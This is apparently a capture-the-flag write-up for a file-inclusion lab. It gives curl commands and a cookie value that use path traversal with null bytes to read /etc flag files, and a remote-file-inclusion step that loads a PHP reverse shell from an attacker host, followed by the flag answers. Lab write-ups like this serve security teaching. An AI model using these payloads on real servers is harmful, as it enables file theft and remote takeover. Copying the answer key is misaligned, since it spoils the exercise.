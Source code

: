 ##### Challenge 1
```
curl -X POST -F 'file=/etc/flag1' http://10.10.109.41/challenges/chall1.php
F1x3d-iNpu7-f0rrn
```

##### Challenge 2
```
Change THM cookie from Guest to ../../../../etc/flag2%00
c00k13_i5_yuMmy1
```

##### Challenge 3
```
curl 'http://10.10.109.41/challenges/chall3.php' -H 'Content-Type: application/x-www-form-urlencoded' -d 'file=../../../../../etc/flag3%00' --output file
P0st_1s_w0rk1in9
```

##### Playground
```
# Establish reverse shell.
http://10.13.25.242/php_reverse_shell.php
hostname
lfi-vm-thm-f8c5b1a78692
```

```
Capture Flag1 at /etc/flag1
> F1x3d-iNpu7-f0rrn
```

```
Capture Flag2 at /etc/flag2
> c00k13_i5_yuMmy1
```

```
Capture Flag3 at /etc/flag3
> P0st_1s_w0rk1in9
```

```
Gain RCE in Lab #Playground /playground.php with RFI to execute the hostname command. What is the output?
> lfi-vm-thm-f8c5b1a78692
```

## Additional Resources
https://www.php.net/manual/en/function.file-get-contents.php